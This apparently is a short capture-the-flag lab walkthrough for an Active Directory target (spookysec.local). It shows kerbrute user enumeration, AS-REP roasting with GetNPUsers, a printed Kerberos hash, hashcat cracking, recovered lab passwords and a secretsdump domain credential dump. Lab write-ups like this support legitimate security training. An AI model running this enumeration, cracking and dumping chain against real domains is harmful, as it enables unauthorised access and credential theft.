### kerbrute

good practice to set victim IP to a domain name in `/etc/hosts`

user enumeration

```
kerbrute userenum --dc spookysec.local -d spookysec.local 'userlist.txt' -t 100
```

---

### getNPusers.py
```
python3 /tmp/impacket/examples/GetNPUsers.py -dc-ip spookysec.local thm-ad/  -usersfile u2.txt 
```

we obtain this kerberos hash:

```
$krb5asrep$23$svc-admin@THM-AD:640b2ef8c30934a79586ffcb60934d54$df250ebd2428bb747ecab7428f529ea5257071f3468336df751f3bfa3717bc5c050c09164303da9a373b28cded6abc4e6ffe583f7e9908d848332896244572715bf4818da2efb07ee17c172d140f224d44eac2d4583bb948cbecdf5ded077e7e5291e7f6e82b2079dd2df785ceb2c2a7fdc8c9b370741f07d84ff684d0f3639055a45bd414074a51f693f0f104ba6cbc865f574f9955aea1a5a1773defa9d88642ed16e520808c7cd3dd040c973f746c2f6a5281c575423283a7ab4eb941eba210eda1e6a06c952a8509105ee73d3ca2ece40912ab4191eeb1b91e8fb847b64465236e43e056db6e86
```

---

### hashcat
```
hashcat -a 0 -m 18200 crack.txt /usr/share/wordlists/rockyou.txt
```

reveals the creds:
```
svc-admin:management2005
```

We use these creds to connect to the `backup` SMB share where we find a txt file

```
backup@spookysec.local:backup2517860
```

---

### secretsdump.py
```
secretsdump.py -just-dc backup@spookysec.local
```